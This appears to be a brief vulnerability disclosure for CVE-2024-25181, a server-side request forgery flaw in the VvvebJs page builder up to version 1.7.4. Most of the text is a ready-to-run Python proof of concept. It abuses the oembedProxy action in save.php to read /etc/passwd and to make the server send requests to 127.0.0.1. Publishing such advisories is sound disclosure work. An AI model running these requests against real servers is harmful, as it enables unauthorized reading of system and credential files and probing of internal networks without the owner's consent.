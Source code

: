 # CVE-2024-25181
The VvvebJs application is vulnerable to SSRF attacks, making it possible to arbitrarily read files on the server and even execute internal requests.

Name Affected product: VvvebJs

Version affected: <= 1.7.4

Problem: Server Side Request Forgery (SSRF)

Proof of concept:
```py
import requests

# Reading files arbitrarily
url = "http://ip:port/save.php?action=oembedProxy&url=/etc/passwd"
resp = requests.get(url)
print(resp.text)

# Executing internal requests
url = "http://ip:port/save.php?action=oembedProxy&url=http://127.0.0.1"
resp = requests.get(url)
print(resp.text)
```